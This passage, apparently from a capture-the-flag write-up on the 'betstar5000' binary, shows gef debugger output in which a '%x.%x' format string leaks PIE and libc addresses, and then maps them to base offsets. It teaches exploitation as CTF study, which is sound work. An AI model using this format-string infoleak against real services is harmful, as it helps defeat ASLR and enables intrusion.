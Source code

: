 ```
   [sp + 0x0] = 0xffffd06c → "%x.%x"
)
──────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "betstar5000", stopped, reason: BREAKPOINT
────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x565559df → call 0x565555a0 <printf@plt>
[#1] 0x56555ccb → add esp, 0x10
[#2] 0xf7df5e81 → __libc_start_main()
[#3] 0x565556c1 → hlt
─────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  x/s 0x5655605c
0x5655605c:    "And the winner is *drumroll*: "
gef➤  x/w 0xf7fb55c0
0xf7fb55c0 <_IO_2_1_stdin_>:    U"\xfbad2288\x56558572\x56558572\x56558570\x56558570\x56558570\x56558570\x56558570\x56558970"
gef➤  c
Continuing.
And the winner is *drumroll*: 5655605c.f7fb55c0
1. Play a round
2. View scores
3. Add a latecommer
4. Edit player name
5. End the game
```

So we can see the addresses the we leaked are `0x5655605c` (the string in the binary `And the winner is *drumroll*: `), and `0xf7fb55c0` (libc `STDIN`). Notice how these addresses are the first two addresses we can leak with the fmt string `%x.%x`, and that these two addresses are the first two values below our format strin `%x.%x`, which is at the top of the stack. This isn't a coincidence. We can reliably use this as a remote infoleak for both `PIE` and `libc`. We can find the offsets from those values to the libc/pie bases like this:

```
gef➤  vmmap
Start      End        Offset     Perm Path
0x56555000 0x56557000 0x00000000 r-x /home/guyinatuxedo/Desktop/betstar/betstar5000
0x56557000 0x56558000 0x00001000 rw- /home/guyinatuxedo/Desktop/betstar/betstar5000
0x56558000 0x5657a000 0x00000000 rw- [heap]
0xf7ddd000 0xf7fb2000 0x00000000 r-x /lib/i386-linux-gnu/libc-2.27.so
0xf7fb2000 0xf7fb3000 0x001d5000 --- /lib/i386-linux-gnu/libc-2.27.so
0xf7fb3000 0xf7fb5000 0x001d5000 r-- /lib/i386-linux-gnu/libc-2.27.so
0xf7fb5000 0xf7fb6000 0x001d7000 rw- /lib/i386-linux-gnu/libc-2.27.so
0xf7fb6000 0xf7fb9000 0x00000000 rw-
0xf7fd0000 0xf7fd2000 0x00000000 rw-
0xf7fd2000 0xf7fd5000 0x00000000 r-- [vvar]
0xf7fd5000 0xf7fd6000 0x00000000 r-x [vdso]
0xf7fd6000 0xf7ffc000 0x00000000 r-x /lib/i386-linux-gnu/ld-2.27.so
0xf7ffc000 0xf7ffd000 0x00025000 r-- /lib/i386-linux-gnu/ld-2.27.so
0xf7ffd000 0xf7ffe000 0x00026000 rw- /lib/i386-linux-gnu/ld-2.27.so
0xfffdd000 0xffffe000 0x00000000 rw- [stack]
```
